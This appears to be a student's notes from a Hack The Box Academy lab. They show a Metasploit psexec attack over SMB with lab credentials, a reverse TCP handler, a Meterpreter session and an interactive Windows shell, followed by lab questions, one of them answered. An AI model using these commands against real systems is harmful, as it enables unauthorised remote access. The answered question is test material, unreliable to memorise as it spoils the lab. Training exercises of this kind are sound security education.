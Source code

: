 **Setting Options:**
```shell-session
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.129.180.71
RHOSTS => 10.129.180.71
msf6 exploit(windows/smb/psexec) > set SHARE ADMIN$
SHARE => ADMIN$
msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
SMBPass => HTB_@cademy_stdnt!
msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
SMBUser => htb-student
msf6 exploit(windows/smb/psexec) > set LHOST 10.10.14.222
LHOST => 10.10.14.222
```

**Exploiting:**
```shell-session
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.222:4444 
[*] 10.129.180.71:445 - Connecting to the server...
[*] 10.129.180.71:445 - Authenticating to 10.129.180.71:445 as user 'htb-student'...
[*] 10.129.180.71:445 - Selecting PowerShell target
[*] 10.129.180.71:445 - Executing the payload...
[+] 10.129.180.71:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.180.71
[*] Meterpreter session 1 opened (10.10.14.222:4444 -> 10.129.180.71:49675) at 2021-09-13 17:43:41 +0000

meterpreter > 
```

**Getting into an Interactive Shell:**
```shell-session
meterpreter > shell
Process 604 created.
Channel 1 created.
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>
```

## Lab Questions: 

Target IP: 10.129.201.160
Creds: u= htb-student p= HTB_@cademy_stdnt!

What command language interpreter is used to establish a system shell session with the target?
- Powershell

Exploit the target using what you've learned in this section, then submit the name of the file located in htb-student's Documents folder. (Format: filename.extension)
- 